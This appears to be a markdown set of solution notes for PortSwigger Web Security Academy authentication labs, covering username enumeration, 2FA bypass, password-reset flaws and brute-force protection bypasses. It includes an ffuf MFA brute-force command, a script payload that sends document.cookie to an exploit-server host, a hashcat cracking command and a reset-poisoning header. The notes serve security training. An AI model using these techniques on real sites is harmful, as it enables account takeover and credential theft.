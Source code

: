 # 🧪 Labs

## Portswigger
1. [Username enumeration via different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses)
   - Fuzz the username using the username list provided in the lab.
   - Get valid username from the request with `Incorrect password` instead of `Incorrect username` in the response body.
   - Fuzz the password using password list provided in the lab.
   - Get valid username and password combination from the request which results in 302 status code.


2.  [2FA simple bypass](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass)
       - Enter the username and password for `wiener`.
       - Enter the 2FA from the email.
       - Note down the url for my account page.
       - Log out and login as `carlos`.
       - Navigate to the url for my account page.


3.  [Password reset broken logic](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)
      - Generate a password reset token for `wiener`.
      - Using this token reset the password for `carlos`.
      - Reset the password for `carlos`.

4. [Username enumeration via subtly different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses)
   - Fuzz the username using the username list provided in the lab.
   - Get valid username from the request with `Incorrect username or password` instead of `Incorrect username or password.` in the response body. Note the `.` at the end.
   - Fuzz the password using password list provided in the lab.
   - Get valid username and password combination from the request which results in 302 status code.


5. [Username enumeration via response timing](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing)
   - Fuzz the username using the username list provided in the lab.
   - Get valid username from the request with highest response time.
   - Fuzz the password using password list provided in the lab.
   - Get valid username and password combination from the request which results in 302 status code.

6. [Broken brute-force protection, IP block](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block)
   - Generate the username list and password list by alternating the known attackers credentials and the unknown victim's credentials.
   - Fuzz the username and password using generated lists.
   - Get valid username and password combination from the request which results in 302 status code.


7. [Username enumeration via account lock](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-account-lock)
   - Fuzz the username and find the username from the request with `too many attempts` in the response.
   - Fuzz the password and find the password using the request which does not have any error message in the response.
   - Login after the wait time is completed.

8.  [2FA broken logic](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic)
   - Login as `wiener`.
   - Send the request to repeater.
   - Use the request to trigger a mfa code to `carlos`.
   - Change the cookie from `verify=wiener` to `verify=carlos`.
   - Use burp intruder to bruteforce the login code in mfa page.
   - Note: Use below command in FFUF to bruteforce the login code.
      ```
      ffuf -w mfa_wordlist.txt:FUZZ -u "https://0a3a00620456a0f483f6e1a8004b00a5.web-security-academy.net/login2" -mc 302 -b "session=c4lf8n8fnIhAOUlR05tCTqtnK2ykkrV8; verify=carlos" -H "Referer: https://0a3a00620456a0f483f6e1a8004b00a5.web-security-academy.net/login2" -X POST -d mfa-code=FUZZ
      ```

9.  [Brute-forcing a stay-logged-in cookie](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)
   - Login as `wiener` with remember me option enabled.
   - Get the `stay-logged-in` cookie and base64 decode it.
   - The decoded cookie will be in the format wiener:md5hashofpassword
   - Use intruder to bruteforce the password of carlos using the following payload processors.
      - md5hash
      - prefix carlos:
      - base64 encode

10. [Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)
   - Login as `wiener`
   - Navigate to a blog post.
   - Comment the below code in the post.
      ```
      <script>document.location='https://exploit-0a7d001604d419aa80a26102016000a3.exploit-server.net/'+document.cookie</script>
      ``` 
   - Fetch the cookie and decode it.
   - Find the value for the hash using websites such as crackstation.net or hashes.com
   - Alternatively, you could also use the below command in hashcat to crack using wordlist.
      ```
      hashcat -a 0 -m 0 26323c16d5f4dabff3bb136f2460a943 ~/Wordlists/Rockyou/rockyou.txt
      ```


11. [Password reset poisoning via middleware](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)
   - Intercept the forgot password endpoint.
   - Change the username to `carlos`.
   - Add the header `X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net`.
   - Use the token sent to email to reset the password for `carlos`.

12. [Password brute-force via password change](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change)
   - Login as `weiner`
   - Change the password and intercept the request.
   - Enter different values for new password and confirm password
   - Notice that, if the current password is wrong the change password request throws an error `Current password is incorrect.` and if the current password is correct it says `New passwords do not match`.
   - Using this different error message bruteforce the password for `carlos`.
   - Login and delete the user `carlos`

13. [Broken brute-force protection, multiple credentials per request](https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request)
       - Sign in with username as `carlos` and `test`.
       - Intercept the sign in request.
       - Change the password from `test` to an array of all the values in the password list provided in the lab.
       - Send the request.

14. [2FA bypass using a brute-force attack](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack)
